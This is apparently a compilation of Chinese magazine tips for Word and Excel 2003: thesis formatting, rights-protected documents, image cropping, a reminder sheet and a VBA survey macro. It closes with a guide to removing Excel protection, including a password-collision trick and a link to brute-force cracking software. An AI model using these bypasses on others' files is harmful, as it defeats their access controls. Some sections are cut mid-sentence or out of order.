毕业论文通常由题目、摘要、目录、引言、正文、结论、参考文献和附录等部分构成。对于本科生，论文字数一般在5000至20000字之间，同时对于论文打印和排版的格式也有着十分严格的要求。表1列出了常见论文写作的格式要求。

很多时候，我们写文章都是先在Word中写好后再排版，但对于毕业论文这种篇幅较长的文章，这样做往往效率不高。下面的实战通过先制定论文格式，再动笔写论文的方式，相信你会觉得这种方式对你的论文写作更有帮助。

## 1. 页面设置

按照表1的要求及论文打印的需要（要预留装订线距离以及设置行间距）进行页面设置。

第一步：在菜单中依次选择“文件→页面设置”，调用出“页面设置”对话框（见图1）。在“页边距”选项卡中分别做以下设置：“上：3.7cm，下：1.7cm，左：1.0cm，右：1.4cm，装订线：3.5cm”（注意具体的页面设置，不同学校的要求可能不同）。第二步：选择“纸张”选项卡，将“纸张大小”设置为“16开”。第三步：选择“文档网格”选项卡，将对应选项设置为“每行：32个字符，跨度：12.75磅，每页：21行，跨度：27.45磅”。



## 2. 设置样式

设置好样式之后，在写作过程中，你就很方便地设置字体大小等格式而不用麻烦地每次重复格式设置的繁琐工作。

第一步：选择“格式→样式和格式”，可以看到Word的右边会出现一个设置窗口（见图2）。第二步：按照表1的格式要求“正文每章标题用三号黑体居中打印”，进行设置。点击“新建样式”，弹出“新建样式”设置窗口，将对应项目设置为：“名称：正文每章标题，格式：黑体、三号、居中”（见图3）。这样就设置好了一个样式，以后每当要输入每章标题时，只需要在样式选择中选择“正文每章标题”，之后输入标题，即可按照设置后的样式在输入文字的同时自动设置好标题的格式了（见图4）。同时，你也可以在输入标题后，选择输入的标题文字，再在样式中选择“正文每章标题”来进行标题的样式套用。按照上面的方法，你可以逐一设置论文中不同格式的部分进行设置，在写作中方便的调用。



| 项目 | 格式要求 |
| :--- | :--- |
| 页面设置 | 纸型为16K，标准16K版芯。 |
| 摘要 | 三号黑体，居中。“摘要”二字下空一行打印摘要内容（小四号宋体）。 |
| 关键词 | 摘要内容后下空一行打印“关键词”三字（小四号黑体），其后为关键词（小四号宋体）。 |
| 目录 | 二字为小二号黑体，居中打印；下空一行为章、节、小节及其开始页码（小四宋体）。 |
| 前言 | “前言”二字为三号黑体，居中打印。 |
| 正文 | 每章标题为三号黑体居中；每节标题为四号黑体左起，小节标题为小四号黑体左起。正文为小四号宋体。 |
| 图 | 图题中文字体为五号宋体。 |
| 表格 | 按章顺序编号，表内必须按规定的符号标注单位。 |
| 公式 | 公式书写应在文中另起一行，居中排列。公式序号按章顺序编号。 |
| 参考文献 | 按论文中参考文献出现的先后顺序用阿拉伯数字连续编号。参考文献中每条项目应齐全。 |





## 3. 文章的分节

我们通常在写论文详细内容之前先写好论文的提纲，也可以说是分好论文的章节。第一步：写好论文的提纲（即每章标题，每小节标题等）。第二步：在分章处和分节处插入“分节符”。用鼠标将光标定位在论文两章的交接处，选择“插入→分隔符”，在弹出的分隔符设置窗口中，选择“分节符类型”为“下一页”（见图5），这样即可在分章的同时另起一页继续下一章的内容，而不用敲入多次回车键来通过插入换行使下一章另起一页（如果是两小节之间，这里的“分节符类型”要选择“连续”，因为我们一般不需要在两个小节之间分页）。



## 4. 生成目录

论文的标题、目录和摘要往往是老师评判论文的最主要的标准（老师评论文的时候第一印象就来自于这三个要素）。下面我们来进行目录的自动生成。第一步：选择“菜单→插入→引用→索引和目录”，弹出“索引和目录”的设置窗口，选择“目录”选项卡（见图6），点击“显示大纲工具栏”按钮，再按“取消”按钮，否则在没有设置级别的时候生成目录会出错。这样操作是为了使用大纲工具栏来对文章进行大纲的级别设置，从而为方便快捷的生成目录做准备工作。第二步：选中论文中每章的标题，在大纲工具栏中将其设置为“1级”，同样方法将小节标题设置为“2级”。以此类推，将你想在



目录中生成的内容设置成不同的级别。设置时，要注意1级的级别最高，即章标题。第三步：设置好级别以后，把光标定位到文章的最前面，插入一个“下一页”类型的分节符，把生成的目录与正文区分开来。再进入“索引和目录”的设置窗口，直接点击“确定”按钮即可自动生成目录（见图7）。



## 5. 设置页眉和页脚

论文要求在不同的章节显示不同的页眉，页脚显示不同页码。第一步：将光标定位到论文的最开始处，选择菜单中的“视图→页眉和页脚”进入页眉和页脚的设置（见图8）。第二步：如果要实现在不同的章节显示不同的页眉，那么一定要在此之前设置好分节符。现在我们可以看到，页眉设置上有一行小字“与上一节相同”，这是Word默认的设置，在这种情况下，如果我们输入一个页眉，那么整篇文章都将采用这一页眉。我们现在需要每章有不同的页眉，所以要按下面的方式设置。用鼠标点击页眉和页脚的设置工具栏上的“同前”按钮，取消Word默认的整篇文章都采用相同页眉的设置，之后即可对每一章节设置不同的页眉。第三步：按页眉和页脚工具栏上的“在页眉和页脚间切换”按钮，切换到页脚的设置。我们的论文摘要、目录、正文都在一篇Word文档中，如果按照Word的默认设置，整篇文章也将采用同样的页码设置（即从文档第一页开始自动编号到最后一页），这样一来就不能实现目录、正文的独立分别编页码（论文的目录一般页码为“1，II等”，正文一般页码为“1、2、……”等，目录部分的页码不计入正文页码）。同样，类似于页眉的设置，我们也要用鼠标点击“同前”按钮取消Word的默认设置。之后，我们点击工具栏上的“设置页码格式”按钮设置不同的页码格式（见图9）。



## 6. 论文插图轻松编号

论文中往往会穿插很多图片，这些图片要求在文章中按顺序编号。Word为我们提供了图片自动编号的功能。在你需要进行编号## 7. 轻松绘制图表

在写作一些理工类论文时，通常需要利用实验数据列出图表，同时根据表中的数据画出折线图（或散点图、柱形图、条状图等）。

下面使用Excel来告诉你怎样画一个漂亮的散点图（本图只用作画图的操作说明）。





第一步：打开Excel，按照图11中的项目分别输入数据，我们这里将天然气价格定为图的横坐标，将价格定为图的纵坐标。



第二步：用鼠标选中需要画图的数据。之后选择“菜单”上的“插入→图表”，弹出“图表向导”对话框，选择“散点图”，之后按照提示操作（见图12）。



第三步：在各项都设置好以后，点击“完成”按钮即可生成需要的散点图（见图13）。如果需要修改，可以用鼠标右键点击生成的图，选择相应的选项即可对图的相应设置进行修改和编辑。另外要说的是，Excel生成的图表可以非常方便的插入Word中，最简单的方法就是把Excel中生成的图直接复制到Word中。同样，AutoCAD、Visio等软件也对Word的支持很好，可以直接将其中绘制的图通过复制直接插入到Word中。



## 8. 输入公式

使用Word自带的“公式编辑器”可以方便快捷地输入公式。

第一步：在“插入”菜单上选择“对象”，然后选择“新建”选项卡。

第二步：在“对象类型”框中选择“Microsoft公式3.0”。如果之前没有安装公式编辑器，会有提示你安装。

## 查找资料

写论文占用时间最多的内容之一便是查找论文的相关资料，这里提供几个查找论文资料的方法。

- 1. 到图书馆查找

学校的图书馆往往是资料比较全的资料库，对于查找论文资料来说，不要只把范围限定在学校的常规图书上，更要注意到“科技期刊阅览室”和“科技论文阅览室”查找。尤其是“科技论文阅览室”，你可以借几本论文出来作为写论文的参考。

- 2. 在互联网上查找

提供给你几个网址，除在Google和百度上大搜特搜之外，这些网站往往能包揽你所需要的大部分资料。

http://www.cnki.net 中国期刊网，这里有全国优秀的科技期刊的电子版，有丰富的资料供你参考。

http://www.wanfangdata.com.cn 万方数据库，在国内，与中国期刊网同样出色的科技资料数据库。

http://www.lib.xjtu.edu.cn 西安交大钱学森图书馆，其中有数字图书馆及全面的科技资料检索的网站说明。

## 翻译英文资料

翻译英文资料一般是论文中不可缺少的一部分，导师往往会交给你一篇2000至20000字左右的英文原版论文来让你翻译。如果你很幸运地得到一份电子版的英文资料，可以非常轻松地利用金山词霸、金山快译等翻译软件来帮助你翻译论文。但如果导师只是给你一份英文资料的文字书面版本，那么就比较麻烦了，因为很多时候，论文最后要提交原版英文资料和你翻译成中文的电子版和打印版。不过，这里告诉你一个好方法，用扫描仪或者数码相机把书面的文字扫描或者拍下来，再通过OCR（文字识别）软件将其中的文字识别出来，不就得到了一份电子版的文档吗？另外，在这样操作之前，不妨将英文资料的标题当作关键字在Google中搜索一下，很多时候也能找到这篇英文资料的电子版下载。

## 准备论文答辩

答辩是一个双向沟通的过程而不仅仅是老师对你的考查——老师通过答辩来考核你的论文，你通过答辩来回答问题以及把你论文中的重点和关键告诉老师。一般，老师会在答辩过程中主要考察你以下几个问题：

- 1. 你对这个课题的研究是从哪些方面入手的，有什么新的发展，提出和解决了什么问题？
- 2. 设计方案或论文立论的主要依据是什么？
- 3. 重要的引文、版本、出处。
- 4. 你在实验（试验）过程中主要进行了那些研究？
- 5. 你对本课题的研究还有什么想法？

知道了论文答辩的特点，相信你已经能轻松应对了吧。

从毕业论文的写作中，你学到的不仅仅是知识，更能在工作前体会到工作的味道以及如何为人处事，更能体会到沉浸在一种研究和爱好中的乐趣与享受，也将能有机会与知名的科学家和大师一起讨论当今最新的技术和话题，体会毕业论文快乐进行时！

（珠海 孙宇 Jimmy）

## 我的作业你别抄——版权证书让Word文档更安全

好不容易把老师布置的市场调查报告搞定，却收到同学发来的短信：“嘿，老兄。怎么样，拿你的那份关于内河航运的调查给我参考一下吧。”晕菜了我：“你们那里没有运河，怎么搞航运呀！”他却说：“哈哈，没关系，已经快挖了！”我@#$%……没办法，只好借给他参考了。但我要做些手脚，让他只能看，不能更改不能复制更不能打印，嘻嘻，为了他，更是为了我……

## 下载一张安全证书保安全

在早期版本的Office中，我们一般只能通过设置密码来控制阅读者的权限。这类密码包括两种类型：修改权限密码和打开权限密码。打开权限密码使得Word文档变成只读文件，如果打开了文档并对其进行了更改，可以以其他文件名保存该文档，修改权限密码则允许用户随意复制保存。由此可见，能任意打开文档的人都能将文档内容加以复制和打印。如何更精确地控制用户的权限呢，请往下看。



第一步：确保电脑联上因特网，用Word 2003打开文档，点击菜单“文件→权限→权限限制为”。这时Word提示安装最新版本的Windows Rights Management客户端（见图1）。





小提示
如果Windows XP已经安装了SP2，在进行一系列操作前，最好先关闭IE的“阻止弹出窗口”，否则在某些机器上会出现“内部错误”。

第四步：在弹出的窗口中登陆到.NET Passport，这时会出现“Windows Rights Management”对话框，填入登录到Microsoft.NET Passport的电子邮箱（见图4），接着出现选择证书类型的对话框，一般选“标准”，点击“下一步”，系统就会在微软的RMS服务器上下载证书。完成后在此时的对话框中点击“确定”，完成初步准备工作。



小知识
Office 2003 信息版权管理（Information Rights Management）系统
它是一个文件级别的安全技术，允许用户定义谁有权利访问和使用文档并保护文档不非法的打印、转发或复制。IRM是信息安全技术，它是对信息本身实施保护，允许文档在被共享和通过电子邮件发送的时候保持对他们的控制权。当客户使用支持IRM的软件创建文档并为其定义版权管理规则后，客户端会向RMS服务器发送未签名的发送许可证，RMS服务器在受到处理请求后会对它进行数字签名并返回给发送者；然后文档的作者就可以发布文档了。当用户打开文档时，该文档会通过Word等程序向RMS服务器确认该用户的身份，生成相应的许可证书，用户就可以与其对应的权限使用该文档了。







特别的文档只给特别的人看
点击工具栏上的权限按钮（见图5），在弹出的对话框中选中“限制对此文档的权限”，点击“其它选项”，出现“权限”窗口（见图6），单击“添加”，在“读取”一栏中填入这位同学的Microsoft.NET Passport账户（见图7），然后单击“确定”。这时可以在“权限”窗口对该用户的权限加以设置，如打印内容、复制文档内容等。我就使用了默认的设置，这样他只能看，不能复制，更不能打印！
就这样，我为我的劳动成果穿上了一套金盔铁甲，没有人能对它轻举妄动了！

小提示
如果使用本文所展示的微软提供的免费服务，就必须使用Microsoft.NET Passport作为认证基准，也就是文档的发布者和接收者必须要有Microsoft.NET Passport。不过微软也免费提供了Microsoft Windows Rights Management服务（RMS）软件，架设在安装有Windows Server 2003的服务器上，充当信息版权管理服务器。详情请参阅 http://www.microsoft.com/windowsserver2003/technologies/rightsmsgmt/default.mspx

我的作业你别抄
接下来我们制作的文档就可以发布了。所谓发布，就是用各种手段加以传播，E-mail啦、U盘啦，随便。我用QQ把它发送给了那位同学。当那位同学打开文档时，Word会有详尽的提示，他只要跟随RMS向导窗口加以操作就可以了。
不久，我的电话里传来他的几声惨叫：“嗨，你的作业我怎么就无法复制呀，一开始以为中了病毒，后来格式化硬盘重装系统再打开，还是无法复制，555……”

（山东 李昊）

## 随心所欲自出心裁——Word 2003 特殊形状截图攻略

Word 2003中提供的图片裁剪功能其实是很简陋的，它只能把图片裁剪成矩形并不能实现特殊形状的裁剪。在此向大家推荐两种Word帮助中没有记录在案的另类特殊形状截图方法。

### 自选图形裁法

一般把自选图形的填充效果设置为指定图片，即可实现对图片的相应形状的裁剪。但这样裁剪只能按默认的位置进行裁剪，无法自己调整位置和大小。笔者在此要介绍的方法就方便多了，只要用鼠标拖动调整点即可自由调整比例和裁图位置。

第一步：绘制裁图形状
选择绘图工具栏的“自选图形→线条→任意多边形”，单击各个顶点画出图形大概形状，在此要多画出一个小角D、E、F。然后右击选择编辑顶点，进入顶点编辑状态（见图1）。把顶点F拖到与D重合，使得DEF变成一条线，为了准确对准，此时宜把显示比例尽量调大。再右击顶点A、B、C选择设置为“角部顶点”，适当调整其两个控制柄即可轻易得到所需弧度，形成带一条线的心形（见图2）。
注：在此DEF一定要留在直线段中，不要在弧线上，否则无法使用。这也就同时要求我们设计的图形至少要保留一段直线。




第二步：裁图
选中此图形，单击绘图工具栏的“填充色→填充效果…”，在“图片”选项卡中单击“选择图片…”按钮打开要进行裁剪的图形文件，并同时选中“锁定图片纵横比”和“随图形旋转填充效果”选项（见图3）以保证图片不因旋转或调整尺寸而失真、变形。确定后可以看到图片已被裁成心形。



第三步：调整裁图位置和比例
右击裁好的图形，选择“编辑顶点”，拖动顶点E就可以直接调整裁图的位置和缩放比例。把E点向左拖动则裁图区域向右移动并放大，向右拖则左移，同样还可以上下移动。不过要调整整体尺寸的话还得退出“编辑顶点”状态才能看到图形的尺寸柄。在此，拖动调整后连接E-DF点的线就有点刺眼了，我们可以通过把图形边线设置为“无线条颜色”来消除它。最后的效果如图4。



注意：若不小心拖动到直线段会变成添加顶点操作，此时应立即按Ctrl+Z键撤销。
如果拖动调整位置时不希望同时改变图片比例，只要在设置填充效果时，改从“纹理”选项卡中单击“其它纹理”按钮打开图片，调整时图片就会以平铺方式显示，并一直保持原始尺寸不变。甚至当我们调整图形大小时也不会改变，因为纹理是不受图形大小影响的。因此若你在裁剪后，还想重新调整大小，则最好应先选中剪切，单击“编辑→选择性粘贴”，选择“图片（增强图元文件）”格式进行粘贴，然后再进行调整。

### 选择粘贴裁法

这种裁法与上面不同，它可以更自由地进行裁剪调整，可设计更复杂的裁剪形状，甚至可以进行文字形裁剪，操作更为直观明了。下面就以四叶草形状的裁剪为例进行介绍。

第一步：设计裁剪形状
以四个“自选图形→基本形状”中的心形，拼成四叶草的形状，把这四个心组合起来，把边线和填充色均设置为黑色。画一个白色的矩形遮住整个黑色四叶草，设置矩形“叠放次序→置于底层”，把它放在四叶草下面（见图5）。
如果要制作的是文字形的裁剪，只要直接右击白色的矩形选择“添加文字”，输入文字即可。

第二步：生成裁剪模板
选中黑色四叶草和下面的白色矩形进行复制，再单击菜单栏的“编辑→选择性粘贴”，在“形式”中选择“图片（GIF）”格式（见图6），确定将图片以gif格式粘贴到文档中。选中粘贴的GIF图片，单击“图片”工具栏上的“设置透明色”按钮，再单击图形的黑色部分，把黑色设置成透明，就得到一个四叶草形的模板。
教你一招：在图片上任意画几个白色自选图形，再用这方法把图片和图形“选择性粘贴”成“图片（PNG）”格式，把白色设置为透明色，你将可以轻易地在图片上开出几个相应形状的透明窟窿。

第三步：保存模板
选中上前面做好的模板，单击“插入→自动图文集→新建”，输入名字四叶草裁图，确定保存。右击工具栏选择“自定义”从“命令”标签中找到“自动图文集”类别中的“四叶草裁图”命令把它拖动到工具栏上。同样把第1步画的四叶草填充色改为白色，边线设置为“无线条颜色”也保存到自动图文集中命名为“四叶草”

第四步：裁剪
插入要裁剪的图片，选中，单击图片工具栏上的“文字环绕”选择“浮于文字上方”。单击工具栏上的“四叶草裁图”按钮插入模板，拖到图片上你想要裁剪的位置（见图7），适当调整遮罩的大小。选中图片，单击“图片”工具栏的“裁剪”按钮，拖动裁剪控点把超出模板的部分裁掉。同时选中模板和图片，剪切，“选择性粘贴”为“图片（png）”，再选中这图片，用“设置透明色”把图片中的白色设置成透明，这样就完成了四叶草形的裁剪。对于裁剪好的图片还是照样可以设置阴影、旋转等（见图8）。






这方法会使图片中原有的白色变透明，此时可插入前面保存的“四叶草”放在原图下组合起来即可。
为了裁剪成功，插入的图形绕排方式绝不可为“嵌入型”：建议单击菜单栏“工具→选项…”，在“编辑”选项卡的“图片插入→粘贴方式”框中，单击选择“浮于文字上”或其他版式以改变默认的图形绕排方式，省得每次调整。
以上两种方法都只有第1步画图形时麻烦点，其他的操作都比较简单。而且画好的裁图模板都可以保存到自动图文集或剪贴画库中随时调用，以后再进行同类裁图就非常方便了。此外这两种方法同样适用于Excel和PowerPoint，不过为了在这些程序中共用裁图模板，应该把模板存放在剪贴画库中才行。

（福建 陈桂鑫）

## 免费秘书Excel 事事及时提醒你

我们每天有大量的工作要去做，忙起来全无头绪，真的很需要有个秘书来提醒一下。可是，这对我们这些上班族来说太异想天开了，那就让Excel作你的电子秘书吧。

第一步：启动Excel2003，并新建一工作簿，取名保存（如“工作安排.xls”）。
第二步：切换到 Sheet2 工作表中，在A1至A5单元格中输入1至5数字，分别代表周一至周五。将相关工作内容简要输入在后续单元格中（一个单元格输入一件事，见图1）。


第三步：切换到 Sheet1 工作表中，在B2单元格（不一定非得是B2单元格，下同）中输入公式：=TODAY()，用于显示当前系统日期。
第四步：在C2单元格中输入“星期”字符，在D2单元格中输入公式：=WEEKDAY(B2,2)，用于显示星期数。选中D2单元格，执行“格式→单元格”命令，打开“单元格格式”对话框。切换到“数字”标签下，先选中“分类”下面的“特殊”选项，再选中右侧的“中文小写数字”选项，确定返回，让星期数显示为中文小写格式。
第五步：将B1、C1、D1三个单元格合并成一个单元格，并输入相应的字符（如“工作安排”等）。
第六步：仿照上述操作，分别将B3至D3、B4至D4……B7至D7合并成一个单元格，分别输入公式：=VLOOKUP($D$2,Sheet2!$A$1:$F$5,2,FALSE)、=VLOOKUP($D$2,Sheet2!$A$1:$F$5,3,FALSE)……=VLOOKUP($D$2,Sheet2!$A$1:$F$5,6,FALSE)。用于从Sheet2工作表中操作相应的数据，显示到当前单元格中。
第七步：设置好字体、字号、字符颜色、行高和列宽等要素，保存。
第八步：以后只要打开上述工作簿，相应的工作安排即刻呈现在眼前（见图2）。

工作安排表格，包含日期和各项安排内容。

| 工作安排 |  |  |
| :--- | :--- | :--- |
| 二〇〇四年七月十二日 | 星期 | 一 |
| 8点东苑1号楼验收 |  |  |
| 10点江东2号楼投诉处理 |  |  |
| 11点站里开会 |  |  |
| 14点工程巡查 |  |  |
| 16点东苑2号楼检测 |  |  |

- 系统日期一定要设置准确。
- 如果将上述公式文档（或其快捷方式）放在系统“启动”组中，那么当系统启动时自动打开上述文档，使用更加方便。

（安徽 陈秀峰）

## 调查问卷Excel全搞定

每年春节前后，建筑工程施工现场相对比较清闲，我们这些从事建设工程质量监督的人员，就抽空到居民家中，开展一年一度的全市住房状况调查工作。以前，我们都是先向居民发放纸质调查表，由居民填写后，再回收统计。这样做，既麻烦又不准确。今年，我们改用Excel制作的电子调查表，带上笔记本电脑上门调查。这样做，既方便了数据的统计处理，又给居民一种新鲜感，进一步激发了他们的参与热情。

### 制作调查问卷的思路

在Excel中，我们先利用“窗体”工具栏上的“分组框、选项按钮、复选框、组合框、按钮”等控件，制作成如图1所示的调查表，并将每一位参与调查居民的选择结果保存在表格下方对应的单元格中。然后通过“宏按钮”将选择结果依次复制到“数据表”工作表中保存起来。最后，利用函数和公式对数据进行统计处理，并将统计结果保存在“数据统计”工作表中，随时查看调查的统计结果。



### 实战制作调查表

在用Excel制作调查问卷前要进行一些准备工作，以方便后面的制作过程：

第一步：启动Excel2003（其他版本操作相似），新建一工作簿文档，取名保存（如“工程调查.xls”）。
第二步：依次双击工作表标签（sheet1、sheet2、sheet3），使其成反白状态，再输入字符，将其重命名为“调查表、数据表、数据统计”（见图2）。



第三步：将A1至L1单元格合并后，输入调查表标题（如“某某市住房状况调查表”）；将A2至L2单元格合并后，输入调查说明；并设置好字体、字号等。
第四步：执行“视图→工具栏→窗体”命令，展开“窗体”工具栏（见图2）。
好了，现在我们可以添加用于调查的各种控件了。

1. 选项按钮的添加：所谓“选项按钮”，就是我们通常所说的“单选”按钮。我们以“年龄”调查项为例，来看看具体的添加过程：

第一步：点击“窗体”工具栏上的“分组框”按钮，然后在工作表中拖拉出一个分组框，并将分组框名（如“分组框2”）修改为





# 保存调查数据

我们通过一个宏，将居民选择的结果（显示在“调查表”工作表第50行相应的单元格中）依次复制保存到“数据表”工作表中，并通过一个按钮来运行该宏。

- 第一步：切换到“数据表”工作表下，仿照图9的样式制作一张用来保存数据的空白表格。

| A | B | C | D | E | F | G |
|---|---|---|---|---|---|---|
| 1 | 参加调查人数 | 0 | | | | |
| 2 | 序号 | 性别 | 年龄 | 学历 | 个人收入 | 建筑面积 | 入住时间 |
| 3 | | | | | | | |
| 4 | | | | | | | |

- 第二步：在 D1 单元格中输入公式：=COUNTA(A:A)-2，用于统计参加调查的人数。

- 第三步：按 “Alt+F11” 组合键，进入 “Visual Basic 编辑器” 窗口（见图10）。

- 第四步：在左侧 “工程资源管理器” 窗口中，选中 “VBAProject(工程调查.xls)” 选项，然后执行 “插入->模块” 命令，插入一个新模块。

- 第五步：将下述代码输入到右侧编辑区域中（见图10）：

```
Sub 保存()
Dim rs As Integer
Sheets("调查表").Select
Rows(50).Select
Selection.Copy
Sheets("数据表").Select
rs = Cells(1, 4)
Rows(rs + 3).Select
ActiveSheet.Paste
Cells(rs + 3, 1).Value = rs + 1
Sheets("调查表").Select
Application.CutCopyMode = False
Range("A1").Select
MsgBox "您的选择已经保存，感谢您对我们工作的支持，祝您新春愉快！", vbOKOnly, "谢谢您"
End Sub
```

- 第六步：输入完成后，关闭 “Visual Basic 编辑器” 窗口。

- 第七步：切换到 “调查表” 工作表中，点击 “窗体” 工具栏上的 “命令” 按钮，然后在工作表中拖拉出一个 “命令” 按钮来，此时系统自动弹出 “指定宏” 对话框（见图11），选中上面编辑的 “保存” 宏，确定返回。

- 第八步：将 “命令” 按钮名（如 “按钮75”）修改为 “完成” 字符。再调整好按钮的大小，定位在调查表的右上角。

- 第九步：同时选中49行和50行，右击鼠标，在随后弹出的快捷菜单中，选择 “隐藏” 选项，将保存居民选择结果的两行隐藏起来；同时选中L至O列，也将其隐藏起来。

小提示
将上述行、列隐藏起来的目的，只是为了美化调查表而已，如果不隐藏，对调查表的使用没有任何影响。

- 第十步：利用填充色等功能，对调查表进行一番美化。

至此，整个调查表制作完成。

# 开展调查

到了居民家中后，切换到 “调查表” 工作表下，指导居民根据各自的实际情况进行选择，选择完成后，点击一下右上角的 “完成” 按钮，数据即刻被保存到 “数据表” 工作表相应的行中，同时弹出见图12所示的一个对话框，点击其中的 “确定” 按钮进入下一个调查。

# 数据统计处理

我们利用 Excel 强大的函数和公式来完成调查数据的统计处理工作（这项函数和公式，我们完全可以在制作调查表的时候事先制作好）。我们以 “年龄” 的统计为例，来看看具体的操作过程：

- 第一步：切换到 “数据统计” 工作表中，仿照图13所示的样式，制作一份空白表格。

| A | B | C | D | E | F | G | H | I | J |
|---|---|---|---|---|---|---|---|---|---|
| 1 | 性别 | | 年龄 | | | 学历 | | | |
| 2 | 男 | 6 | 31.3% | 20岁以下 | 0 | 0.0% | 博士 | 0 | 0.0% | 500元以下 |
| 3 | 女 | 13 | 68.4% | 21-30岁 | 0 | 0.0% | 硕士 | 0 | 0.0% | 501-1000 |
| 4 | | | | 31-40岁 | 11 | 57.9% | 大学 | 26 | 81.3% | 1001-1500 |
| 5 | | | | 41-50岁 | 5 | 26.3% | 大专 | 2 | 6.3% | 1501-2000 |
| 6 | | | | 51-60岁 | 2 | 10.5% | 中专 | 4 | 12.5% | 2001-2500 |
| 7 | | | | 60岁以上 | 0 | 0.0% | 高中 | 0 | 0.0% | 2501-3000 |
| 8 | | | | | | | 初中 | 0 | 0.0% | 3000元以上 |
| 9 | | | | | | | 初中以下 | 0 | 0.0% | |

- 第二步：分别选中 E2、E3……E7 单元格，依次输入公式：=COUNTIF(数据表!C:C,1)、=COUNTIF(数据表!C:C,2)……=COUNTIF(数据表!C:C,6)。

小提示
由于我们在调查表中将年龄分为6种类型，分别

# 复选框的添加

所谓 “复选框”，就是允许一次性选择多个选项。我们以 “存在哪些质量问题” 调查项为例，来看看具体的添加过程：

- 第一步：制作一个 “存在哪些质量问题” 分组框。

- 第二步：点击 “窗体” 工具栏上的 “复选框” 按钮，然后在上述 “分组框” 中拖拉出一个 “复选框” 来，并将 “复选框” 名（如 “复选框74”）修改为相应的调查项字符（如 “屋面渗水”，见图5）。

- 第三步：双击刚才添加的第1个 “复选框” 按钮，打开 “设置控件格式” 对话框（见图4），切换到 “控制” 标签下，在 “单元格链接” 右侧的方框中输入 “$K$50”，确定返回。

- 第四步：重复上述2、3两步操作，根据调查内容，添加其他复选框。

小提示
由于是 “复选框”，所以每一个 “复选框” 的 “单元格链接” 地址是不同的，需要逐一设置。

- 第五步：调整好 “分组框”、“复选框” 的大小和位置。

# 组合框的添加

所谓 “组合框”，就是我们通常所说的 “下拉框”。我们以 “学历” 调查项为例，来看看具体的添加过程：

- 第一步：在L4至L11单元格区域（不一定非得是这个区域哟）中，输入各学历分类（见图6）。

- 第二步：制作一个 “学历” 分组框。

小提示
其实，这里只有一个 “组合框”，完全不需要添加一个 “分组框”。我们之所以添加一个分组框，是为了保持调查表格式的统一。

- 第三步：点击 “窗体” 工具栏上的 “组合框” 按钮，然后在上述 “分组框” 中拖拉出一个 “组合框” 来。

- 第四步：双击上述 “组合框”，打开 “对象格式” 对话框（见图7），在 “数据源区域” 右侧的方框中输入 “$L$4:$L$11”，在 “单元格链接” 右侧的方框中输入 “$D$50”，确定返回。

- 第五步：调整好 “分组框”、“组合框” 的大小和位置（见图8）。

- 仿照上面的操作，完成其他调查项的制作过程。

# 选项按钮的添加

所谓 “选项按钮”，就是我们通常所说的 “单选框”。我们以 “年龄” 调查项为例，来看看具体的添加过程：

- 第一步：制作一个 “年龄” 分组框（见图3）。

- 第二步：点击 “窗体” 工具栏上的 “选项按钮” 按钮，然后在上述 “年龄” 分组框中拖拉出一个按钮来，并将按钮名（如 “选项按钮4”）修改为相应的调查项字符（如 “20岁以下”，见图3）。

- 第三步：重复上述操作，再添加若干 “选项按钮”。

小提示
选中第1个 “选项按钮”，在按住Ctrl键的同时，拖动一下鼠标，复制一个选项按钮，修改一下其中的字符即可快速制作出另一个 “选项按钮” 来。

- 第四步：双击其中任意一个 “选项按钮”，打开 “设置控件格式” 对话框（见图4），切换到 “控制” 标签下，在 “单元格链接” 右侧的方框中输入 “$C$50”，确定返回。

小提示
此步操作的目的是将 “年龄” 调查项的选择结果保存在 C50 单元格中（选择第1个、第2个……“选项按钮”，该单元格分别显示出1、2……）。

- 第五步：调整好 “分组框”、“选项按钮” 的大小和位置。

# 解除Excel数据保护之“葵花宝典”

Excel对数据有很强的保护功能，可以对整个或部分数据隐藏、禁止复制和修改等，但有时候，由于忘记了密码，或者记不起以前自己到底做了哪些手脚，这种保护反而会为难了自己。针对这种情况，我们总结了几种解除保护的方法，供大家参考，并希望能够以此抛砖引玉。

# 解除单元格的保护

1. 取消隐藏的行或列
被隐藏的行或列有一个明显的标志，那就是在行标题栏或列标题栏上有一粗黑线，这就说明这里含有被隐藏的行列。取消方法有两种，一种是直接拖动隐藏处的行或列标题使之变宽，也可选中包含隐藏区域的行列，通过“格式”菜单中的行列项目输入非0数值调整行高或列宽，使数据有足够的空间显示出来；另一种方法是选中包含隐藏内容的行或列区域，再通过“格式”菜单行列选项中的“取消隐藏”来恢复全部行列区域。

2. 取消隐藏的单元格或区域中的数据
为了不让他人直接看到单元格的内容，一种简单的方法就是把数据颜色设置成与背景色相同，这时我们只要拖选整个工作表即可让数据原形毕露。如果是用图片、矩形框之类的非字符内容将重要数据遮盖，先用拖选方式找出工作表中的图片位置，再将其移开，激活被遮单元格，一般在公式编辑栏中总会显示其内容。

若在单元格格式中使用了三个分号或空格之类的自定义格式，一般只要选中此单元格，在公式编辑栏中即可显示其内容，要想取消这种隐藏，可重新设置此单元格格式，在“数字”选项卡中选择“常规”即可。
如果选中怀疑有数据的单元格后并没有在公式编辑栏中显示数据，不一定它就真的没有数据，我们只要看一下单元格的格式能否设置，若不能的话说明工作表被保护，如果不用密码可以取消工作表保护的话，在单元格格式设置中先查看数据格式是否为自定义，然后查看“保护”选项卡，看看是否已勾选了“隐藏”项，将这些都取消就可以知道单元格是否真的没有内容。当然，如果在撤销工作表保护时需要密码的话，我们将无可奈何，除非用户设置的密码很简单，那我就告诉你一个大秘密，当密码的形式是“*123*”或“*abc*”时，我们可以分别用“*333*”或“*ccc*”来破解，星号表示任意字符，到底是什么只有靠猜了，这种方法对工作表和工作簿保护的密码也都适应。

3. 取消单元格数据的只读属性
有时单元格中的数据虽然可见，但是我们既不能修改，也不能在当前工作表中复制，对于这种保护措施，取消的方法跟上面的第2点基本一样，只要取消单元格格式设置对话框中“保护”选项卡中的“锁定”一项即可。当然还需要通过密码取消工作表的保护才行。

# 解除工作表的保护

查看是否有被隐藏的工作表，若菜单中有“格式→工作表→取消隐藏”项，则可通过此项取消隐藏的工作表。
如果在菜单中也没有有效的“取消隐藏”项，仍然可能有被隐藏的工作表，这时我们可以任选一工作表右击，在弹出菜单中选择“查看代码”，然后在左窗格中的“Microsoft Excel对象”列表中选择被隐藏的工作表，将其“Visible”属性值取“-1”退出即可，如图所示。

如果工作表被密码保护，则可复制当前表全部内容到另一张未保护的工作表中编辑。

# 解除工作簿的保护

如果工作簿被密码保护不能打开，只要不是用于非法，我们可以使用“Intelore Excel Password Recovery V1.0h”等软件进行暴力破解，此软件的下载地址是：http://www.onlinedown.net/soft/17649.htm。
